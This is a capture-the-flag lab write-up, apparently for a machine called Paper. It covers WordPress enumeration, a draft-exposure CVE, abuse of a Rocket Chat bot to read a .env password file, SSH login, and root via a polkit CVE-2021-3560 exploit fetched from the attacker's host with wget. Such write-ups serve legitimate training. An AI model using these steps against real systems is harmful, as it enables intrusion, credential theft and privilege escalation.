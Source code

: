 ### Task 1 

How many TCP ports are open on the remote host?

``nmap -sS <target_ip>``

![alt text](image-p-1.png)

### Task 2

What is the domain for the Wordpress blog?

For answering this, we will attempt checking the information coming from the headers. 

``curl -I <target_ip>``

![alt text](image-p-2.png)

We can se that the server is leaking information from the backend systems from the X-Backend-Server header that contains the hostname of the target IP.

### Task 3

Which 2019 CVE is the wordpress version vulnerable to?

First, we need to identify the version of wordpress. First, we add the domain to the host file by ``sudo vim /etc/hosts``

![alt text](image-p-3.png)

Then, we use wpscan, the WordPress security scanner, to find the version and any vulnerabilities. 

![alt text](image-p-4.png)

We found both the readme.html file location, which usually contains the wordpress version but the specific version was already identified. With a quick google search about the specific version we find the 2019 CVE.

### Task 4

What is the secret registration URL of the employee chat system?

We first need to enumerate the directories using gobuster dir.

``gobuster dir -u http://office.paper/ -w <word_list>``

![alt text](image-p-5.png)

Navigating to the index.php page we see some kind of chat system.

![alt text](image-p-6.png)

Going back to the CVE we previously found, this version could allow an unauthenticated user to view private or draft posts. Navigating to the page we also find this interesting post by the user Prinsonmike. Seems that we can use this wordpress vulnerability to access his draft hoping we can find this secret url.

![alt text](image-p-8.png)

We navigate ``http://office.paper/?static=1`` and exploit the vulnerability and find the secret url.

![alt text](image-p-9.png)

### Task 5

What is the name of the bot running on the Rocket Chat instance?

We need to first add to the hosts file the subdomain ``chat.office.paper`` so the ip get resolved. 

Navigating to the secret url we found on the previous task we see the registration form.

![alt text](image-p-10.png)

We register, and the go to the general channel where we see the name of the bot.

![alt text](image-p-11.png)

### Task 6

Which recyclops commands allows listing files?

In the "How to use me?" guide of the bot we see all the commands, including the one listing files.

![alt text](image-p-12.png)

### Task 7

What is the file name of the file that contains the configuration information of hubot running on the chat system?

Hubot is a framework to build chat bots. We will try to chat with recyclops, using the commands available to extract the information about the name of the file. Running ``list`` we see that we are on user dwight home directory. 

![alt text](image-p-15.png)

We go back to the direcotry with ``list ../`` and then list the directory hubot ``list ../hubot``.

![alt text](image-p-16.png)

Looking through the listed files and google searching hubot documentation to cross-reference, we see some files that could be possible like ``.env`` and ``external-scripts``. We see their contents, first ``file ../hubot/external-scripts.json`` is empty and then ``file ../hubot/.env`` is the one containing the configuration.

![alt text](image-p-17.png)

### Task 8

What is the password obtained from that configuration information?

From the ``.env`` file we obtained from the previous question, we find the password. 

### Task 9

Which regular user with a home directory exists on Paper other than rocketchat?

From the previous tasks, we saw that we where on the regular user dwight directory.

### Task 10

Submit the flag located in the dwight user's home directory.

Previously, when we listed the home directory, by running ``list ../`` we came accross the ``user.txt`` file. We try to see the contents and get the user flag by ``file ../user.txt`` but we get access denied. We try to ssh to the target ip with the username dwight ``ssh dwight@<target_ip`` and the password we found in the ``.env`` file and we are in! We get the user flag by ``cat user.txt``.

### Task 11

What is the polkit version on the remote host?

We first run ``cat /etc/os-release`` to find which os we are on and we see that we are on CentOS. Then we can run ``rpm -qa | grep polkit
`` to find the version of polkit.

![alt text](image-p-18.png)
![alt text](image-p-19.png)

### Task 12

What is the 2021 CVE ID for the vulnerability in this version of polkit related to bypassing credential checks for D-Bus requests?

Looking up for CVEs affecting the version of the polkit found, we find CVE-2021-3560 for the vulnerability that allows an unprivileged user to create an administrative user without authentication by abusing D-Bus and timing. 

### Task 13

In our machine, we clone the exploit from github https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation. Then, we open a http server on port 8080 using ``python3 -m http.server 8080``. From the remote server, we use wget to get the exploit script ``wget http://<host_ip>:8080/poc.sh``. We then ``chmod +x poc.sh`` and run the exploit as many times as needed to get the timing right. We follow the exploit's instruction and get a root shell as the secnigma user. 

We navigate to the root directory and obtain the root flag by ``cat root.txt``

![alt text](image-p-20.png)


